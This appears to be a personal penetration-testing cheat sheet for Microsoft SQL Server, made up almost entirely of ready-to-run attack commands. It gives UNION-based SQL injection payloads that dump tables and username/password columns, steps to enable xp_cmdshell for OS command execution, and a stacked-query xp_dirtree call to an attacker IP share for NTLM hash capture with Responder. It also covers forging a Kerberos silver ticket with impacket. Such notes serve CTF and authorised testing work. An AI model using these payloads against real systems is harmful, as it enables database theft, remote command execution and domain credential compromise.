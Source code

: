 # MSSQL
## CLI
Cli command
```
sqlcmd
```
```
sqlcmd -U <username> -P '<password>' -Q 'query goes here;'
```
Get databases:
```
select name from sys.databases;
```
Get tables from the given database:
```
select TABLE_NAME from <DB-name>.INFORMATION_SCHEMA.TABLES;
```
Dump data from the table
```
select * from <db-name>..<table-name>;
```
```
select * from <db-name>.dbo.<table-name>;
```

## Injection
Get tables:
```
1' union select 1,name,id,4,5,6 from <dbname>..sysobjects where xtype=u-- -
```
Concat different things into one:
```
1' union select 1,concat(name,':',id),id,4,5,6 from <dbname>..sysobjects where xtype=u-- -
```
Instead of `GROUP_CONCAT` we use `string_agg`:
```
1' union select 1,(select string_agg(concat(name,':',id),|')),id,4,5,6 from <dbname>..sysobjects where xtype=u-- -
```
Getting columns:
```
1' union select 1,(select string_agg(name,'|')),id,4,5,6 from <tablename>..syscolumns where id=<table-id-that-we-get-above>-- -
```
Dump data:
```
1' union select 1,(select string_agg(concat(username,'/',password),|') from <db-name>..<table-name>),3,4,5,6-- -
```

Some useful variables:
```
@@version

# Current user
user

# Current DB
db_name()

# You can increase number
db_name(0)
db_name(1)
```

# Command Injection
## `xp_cmdshell`
If it is disabled: https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
EXEC xp_cmdshell 'whoami';
```

## Stacked Queries
Use it with responder. If it is system account you f*cked up! :D
```
500'; EXEC xp_dirtree '\\10.10.10.10\sharename\file';-- -
```



# `sqsh`

# Command Injection
```
xp_cmdshell "whoami"
go
```
If it doesn't work
```
enable xp_cmdshell
```

## Authenticate with Kerberos
- (Include Kerberos TGT - it is explained in `Active Directory.md`)
- Create TGT
```
impacket-gettgt domain.local/username:password
```
- Export TGT
```
export KRB5CCNAME=outputfilename.cache
```
- Verify it
```
klist
```
- Login MS SQL service
```
impacket-mssqlclient dc01.domain.local -k
```

## Creating Silver Ticket for Authentication
- Get user SID for gaining Domain SID
- You can get it via ldap (check ippsec Scrambled 21:00)
```
impacket-getpac adminsitrator domain.local/username:password
```
- Create ticket
```
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator -nthash <lowercase-ntlm-hash> -domain-sid <S-1-5-...> -domain scrm.local
```
- `500`: Administrator ID


- Add ticket
```
export KRB5CCNAME=Administrator.ccache
```
- Verify
```
klist
```
